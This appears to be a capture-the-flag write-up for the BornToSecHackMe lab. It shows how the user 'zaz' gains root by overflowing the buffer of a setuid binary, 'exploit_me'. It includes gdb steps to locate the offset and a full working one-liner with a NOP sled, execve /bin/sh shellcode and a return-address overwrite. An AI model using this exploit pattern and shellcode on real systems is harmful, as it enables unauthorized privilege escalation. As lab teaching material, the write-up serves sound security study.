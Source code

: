 # Privilege Escalation via Buffer Overflow and Shellcode Injection (User: `zaz`)

As the user **`zaz`**, we are given a binary named `exploit_me` that is vulnerable to a classic **buffer overflow**. We'll exploit it using a custom **shellcode** to spawn a `/bin/sh` shell — ultimately granting us root access.

---

### Step 1: Identify the Overflow Offset

First, we determine how many bytes are required to reach the return address. This is done by launching the program in `gdb` and intentionally causing a segmentation fault:

```bash
zaz@BornToSecHackMe:~$ gdb exploit_me
(gdb) b main
Breakpoint 1 at 0x80483f7
(gdb) r AAAAAAAA
Starting program: /home/zaz/exploit_me AAAAAAAA
Breakpoint 1, 0x080483f7 in main ()
```

We then inspect the stack to find where `argv[1]` (our input) is located:

```bash
(gdb) x/150x $esp
```

After examining the output, we identify the memory address of `argv[1]` — our input buffer:

```
(gdb) x/s 0xbffff927
0xbffff927: "A"
```

So, we determine:

* The **offset** to the return address is **140 bytes** (as seen in WriteUp1).
* The **address of `argv[1]`** is approximately **`0xbffff927`**, which we'll align to `0xbffff8c0` or similar for padding reliability.

---

### Step 2: Prepare the Exploit Payload

To build a successful exploit, we’ll construct a payload consisting of:

1. **NOP sled** (for safe landing): 50 bytes of `\x90`
2. **Shellcode**: 21-byte payload to spawn `/bin/sh`
3. **Padding**: Fills the space between shellcode and return address
4. **Return address overwrite**: Points back into our NOP sled or shellcode (e.g. `\xc0\xf8\xff\xbf` for address `0xbffff8c0`)

Here is the final one-liner to execute the binary with the exploit:

```bash
./exploit_me $(python -c 'print("\x90" * 50 + "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * (140 - 50 - 21) + "\xc0\xf8\xff\xbf")')
```

Explanation of the shellcode:

* `\x6a\x0b`: push syscall number for `execve`
* `\x68...`: push `/bin//sh`
* `\x89\xe3`: move stack pointer to `ebx`
* `\xcd\x80`: trigger syscall

---

### Step 3: Success — Gaining Root

If the binary is setuid root (as expected), the shell we spawn will be a **root shell**:

```bash
# id
uid=0(root) gid=1000(zaz) groups=1000(zaz)
```

✅ **We have successfully escalated privileges to root!**